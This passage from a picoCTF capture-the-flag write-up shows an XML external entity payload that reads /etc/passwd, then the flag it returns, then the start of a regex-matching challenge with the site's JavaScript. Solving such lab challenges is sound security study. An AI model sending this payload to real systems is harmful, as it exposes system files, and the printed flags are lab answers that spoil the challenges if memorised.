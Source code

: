    Connection: close
    
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data><ID>
    &xxe;</ID></data>
    ```
    
- Intercept the response of this request, you will see the flag in the response itself. ^^

<aside>
⛳

picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}

</aside>

---

## MatchTheRegex

### Description

> How about trying to match a regular expressionThe website is running
> 
> 
> [here](http://saturn.picoctf.net:58620/).
> 

### Understanding

- On opening the site, we are given with a input box and there is nothing much.
- Entered random gibberish and saw the output. Later, inspected the Source code.
- There’s a Function

```jsx
function send_request() {
		let val = document.getElementById("name").value;
		// ^p.....F!?
		fetch(`/flag?input=${val}`)
			.then(res => res.text())
			.then(res => {
				const res_json = JSON.parse(res);
				alert(res_json.flag)
				return false;
			})
		return false;
	}
```

- There’s a commented thing, what could that be? On brainstorming the possibility on these constraints
    - Something that starts with p → pico (General flag format of picoCTF’s)
    - Flag ends with F, typical picoCTF flag ends with `}`
